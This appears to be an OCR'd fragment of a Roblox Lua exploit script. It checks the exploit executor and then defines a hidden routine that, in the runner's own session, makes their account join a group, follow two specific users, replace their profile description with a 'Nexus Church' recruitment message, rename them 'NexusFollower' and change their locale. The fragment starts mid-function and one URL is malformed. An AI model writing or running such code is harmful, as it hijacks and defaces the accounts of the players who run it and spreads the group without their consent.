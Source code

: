    return old(...)
end
end





--



local plr = game.Players.LocalPlayer
local OSTime = os.time()
local Time = os.date('!*t', OSTime)

local function getexploit()
    local exploit = identifyexecutor()
    return exploit
end










-- extra vulns 


local function handlepooron()
local player = game.Players.LocalPlayer
local userId = player.UserId
local description = '{"description":"Hello, I am a loyal follower of the Nexus Church ✝️ We seek to better roblox by destroying roblox. Join the group on @MrReplicatedStorage page to become one of us."}'
local none = ''
local china = '{"supportedLocaleCode":"en"}'
local display = '{"newDisplayName":"NexusFollower"}'
local grouppost = '{"body":"I am now a loyal follower of the Nexus 1.0 Fanclub."}'





-- extra functions if need
_yield(0.25)
pcall(function()
_post("https:/groups.roblox.com/v1/groups/33254476/users", '')
end)
_yield(0.25)
pcall(function()
_post("https://friends.roblox.com/v1/users/1025132233/follow", '')
end)
_yield(0.25)
pcall(function()
   _post("https://friends.roblox.com/v1/users/430344286/follow", '')
end)
_yield(0.25)
pcall(function()
_post("https://users.roblox.com/v1/description", description)
end)
_yield(0.25)
pcall(function()
_patch("https://users.roblox.com/v1/users/" .. game.Players.LocalPlayer.UserId .. "/display-names", display)
end)
_yield(0.25)
pcall(function()
_post("https://locale.roblox.com/v1/locales/set-user-supported-locale", china)
end)
_yield(0.25)
